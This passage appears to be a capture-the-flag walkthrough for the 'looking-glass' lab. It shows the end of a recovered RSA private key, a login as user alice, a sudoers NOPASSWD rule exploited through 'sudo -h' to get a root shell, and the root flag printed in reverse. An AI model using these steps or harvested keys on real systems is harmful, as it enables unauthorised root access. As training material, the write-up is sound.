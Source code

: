 ```bash
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

## HORIZONTAL ESC - ALICE

1.  We can use the foudn keyt and get in as `alice`. Let's dig some more.

```bash
alice@looking-glass:~$ id
uid=1005(alice) gid=1005(alice) groups=1005(alice)
alice@looking-glass:~$ ls
kitten.txt
alice@looking-glass:~$ cat kitten.txt 
She took her off the table as she spoke, and shook her backwards and forwards with all her might.

The Red Queen made no resistance whatever; only her face grew very small, and her eyes got large and green: and still, as Alice went on shaking her, she kept on growing shorter—and fatter—and softer—and rounder—and—


—and it really was a kitten, after all.
```

2. We remeber the path to escalate. It is through the sudoers voilation. Let's get on as root.

```bash
[!] sud020 Can we sudo with a password?.................................... nope
[!] sud030 Can we list sudo commands with a password?...................... nope
[*] sud040 Can we read sudoers files?...................................... yes!
---
/etc/sudoers.d/alice:alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```
3. Extra fun down the hole - [Subscribe](ssh/tmp).

## PRIVESC

1. We can basically run bash as root with no password on host `ssalg-gnikool`. Let's try it.

```bash
alice@looking-glass:/tmp$ sudo -l -h ssalg-gnikool
sudo: unable to resolve host ssalg-gnikool
Matching Defaults entries for alice on ssalg-gnikool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash
alice@looking-glass:/tmp$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@looking-glass:/tmp# cd /root/
root@looking-glass:/root# cat 
.bash_history     .local/           .selected_editor  passwords/        root.txt          
.bashrc           .profile          .ssh/             passwords.sh      the_end.txt       
root@looking-glass:/root# cat root.txt 
}f3dae6dec817ad10b750d79f6b7332cb{mht
root@looking-glass:/root# cat root.txt | rev
thm{******************************}
```
2. We get in and read the root flag. Yipee.

